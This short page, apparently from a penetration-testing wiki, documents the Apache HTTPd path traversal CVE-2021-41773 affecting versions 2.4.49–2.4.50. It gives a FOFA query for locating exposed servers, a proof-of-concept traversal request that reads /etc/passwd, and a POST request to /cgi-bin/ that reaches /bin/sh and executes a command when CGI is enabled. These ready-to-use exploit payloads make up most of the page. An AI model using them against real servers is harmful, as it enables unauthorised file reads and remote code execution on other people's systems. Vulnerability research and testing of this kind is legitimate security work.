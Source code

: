 ```yaml
---
title: Apache HTTPd path crossing vulnerability CVE-2021-41773
---
```


# Apache HTTPd path crossing vulnerability CVE-2021-41773

## Vulnerability Description

Apache HTTPD is an HTTP server that can run PHP web pages through mod_php. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache HTTPd version 2.4.49~2.4.50</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## Vulnerability reappears

Get the Apache version through the response package

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094317679.png)

Verify POC

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633685786125-ff050193-f7dd-45a9-a867-8f0c801f0024.png)

RCE can be enabled when CGI is turned on

```php
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```